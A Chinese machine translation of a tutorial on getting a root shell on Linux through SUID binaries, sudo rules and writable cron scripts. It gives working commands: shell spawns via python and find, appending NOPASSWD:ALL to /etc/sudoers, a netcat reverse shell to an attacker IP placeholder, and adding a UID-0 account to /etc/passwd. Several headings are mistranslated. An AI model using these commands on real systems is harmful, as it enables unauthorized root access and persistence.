


# Linux 权限提升——获得根 Shell 的三种简单方法

> 原文：<https://medium.com/codex/linux-privilege-escalation-three-easy-ways-to-get-a-root-shell-255a71fcf2a0?source=collection_archive---------9----------------------->

一旦你获得了对一个 **Linux** 系统的访问权，下一个合乎逻辑的步骤就是执行**权限提升**。也就是说，从具有有限权限的用户帐户变为具有全部权限的超级用户帐户。

有许多选项可以帮助您实现这一点，从简单易行的技术到更高级但不太容易执行的更复杂的技术。在本文中，我们将探索您可以使用的三个最简单的选项。



这里列出的技术都是唾手可得的，你可以先检查一下。只有在所有这些选择都失败后，你才能尝试更先进的技术。

根据目标主机的安全配置，其中一些技术可能不起作用。但有时，管理员的一个错误就足以让您找到根。

# SUID 双星

一个 **SUID** 是某些可执行文件可能拥有的特殊权限。当文件设置了 SUID 位时，用户可以使用与其所有者相同的权限执行该文件。

SUID 二进制文件由文件权限第四位的“s”字符标识。正如您在下面看到的，' *passwd* '文件是一个 SUID 二进制文件。


您可以看到我们如何利用这一点，尝试通过 root 用户或拥有更高权限的用户拥有的 SUID 二进制文件生成一个 shell。

## 利用 SUID 二进制文件

易受攻击的 SUID 二进制文件的一个例子是' *python* '命令。如果您发现与此命令相关联的二进制文件上设置了 SUID 位，那么您可以通过运行以下命令轻松执行权限提升:

```
$ ./python -c 'import os;os.system("/bin/sh -p")'
```

当然，您应该首先将当前目录更改为 python 二进制文件所在的位置。

如果成功，您将获得一个提升权限的外壳。您可以通过执行' *whoami'* 命令来验证这一点。

这里提供的 *python* 命令只是作为一个例子，帮助您更好地掌握这项技术。因此，您不应该期望它在您的目标主机上被配置为 SUID 二进制文件，因此，上面的命令可能不起作用。

但是，您可以做的和应该做的第一件事是在系统上搜索所有 SUID 二进制文件。为此，您可以运行下面的 [find](https://patchthenet.com/tutorials/linux/chapter-6-find-files-in-linux/) 命令:

```
find / -type f -perm -u=s 2>/dev/null
```

一旦您有了所有 SUID 二进制文件的列表，您就可以访问 [GTFOBins](https://gtfobins.github.io/) 来检查那些容易受到特权提升攻击的文件。该网站还将为您提供运行每个易受攻击的 SUID 二进制文件的确切命令。

GTFOBins 是一个非常好的 Linux 权限提升资源。您应该将它保存在您的书签中，因为您将来在 Linux 系统上尝试权限提升时肯定会用到它。

# SUDO 司令部

要以 root 用户身份运行一个命令，通常需要在实际命令之前先输入' *sudo* '。

然而，并不是每个用户都有权运行 **SUDO** 。用户对该命令的具体权限存储在 */etc/sudoers* 中。该文件列出了用户可以使用 SUDO 运行的命令。它还指定他们是否需要密码才能这样做。

## 剥削 SUDO

您可以使用以下命令检查当前用户的权限:

```
$ sudo -l
user ALL=(ALL) NOPASSWD:ALL
```

如果这个命令的输出类似于上面的内容，那么您非常幸运，因为这一行授予您使用 SUDO 运行任何命令的权限，而无需提供密码。

但是老实说，这在现实世界中太容易发生了，除了一些容易入门的 CTF。

另一方面，您可能会更经常地发现类似如下的内容:

```
(root) NOPASSWD: /usr/bin/find
```

在这种情况下，您只能用 *find* 命令运行 SUDO，并且您仍然不需要密码。

你可能认为 *find* 在你寻求特权的过程中不会有太大的帮助。嗯，……在这种情况下，你就错了。其实，*找*绰绰有余。

如果我们引用 [GTFOBins](https://gtfobins.github.io/) ，我们可以使用 *find* 获得完整的命令来生成 shell:

```
sudo find . -exec /bin/sh \; -quit
```

我在这里提供 find 作为一个例子。这对于许多其他命令也是有效的。您可以检查 GTFOBins，看看哪些容易受到这种技术的攻击，以及如何使用每个 GTFOBins 来获得根 shell。

# 克朗·乔布斯

Cron 是一个运行在大多数 Linux 系统上的任务调度程序，类似于 Windows 中的任务调度程序。它允许用户安排某些程序和脚本定期运行，而不必手动执行它们。

Cron 在自动化任务方面非常有用，例如运行恶意软件扫描、检查更新或创建定期备份。

然而，从攻击者的角度来看，如果配置不当，Cron 可能是权限提升的潜在媒介。让我们看看我们能做些什么。

Cron 可以使用某些名为“crontabs”的文件进行定制。这些文件告诉 Cron 要执行什么作业以及何时执行。

每个作业都在一行中定义，第一组列指定它应该运行的时间，最后一列指定要执行的命令或程序路径。



一个特殊的 Crontab 位于/etc/crontab，用于调度系统范围的作业。该文件中安排的所有作业都由 Cron 以 root 权限执行。

## 剥削 Cron 工作

如果我们使用 *cat* 查看 */etc/crontab* 的内容，并且我们发现当前用户可以写一个脚本，那么我们可以修改它来做各种事情来提升我们的权限。

例如，假设您有一个包含以下行的 crontab 文件:

```
*/5 * * * * root /writable/script.sh
```

按照这一行， *script.sh* 每 5 分钟运行一次。您在该文件中添加的任何命令都将以 root 用户身份执行。我们可以从这里开始有许多方法:

*   您可以在 sudoers 文件中添加一行，授予当前用户在没有密码的情况下运行 SUDO 的权限。

```
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

*   或者，您可以通过连接回攻击机器上的侦听器来生成反向 shell。

```
nc <IP-Address> <Port> -e /bin/sh
```

*   您甚至可以在 */etc/passwd* 中添加一个新的 root 用户，方法是提供一个 UID 值 0 (UID 是第三个字段，与 root 相关联)。

```
echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd
```

# 结论

Linux 权限提升不是一件容易的事情。应用这些技术并不总是像这里介绍的那样简单。有时候，它们都不起作用。但这是一件好事，因为这将推动你探索新的技术，这些技术将被证明是有用的，而其他人不会。

*原载于 2021 年 7 月 30 日 https://patchthenet.com**的* [*。*](https://patchthenet.com/articles/linux-privilege-escalation-three-easy-ways-to-get-a-root-shell/)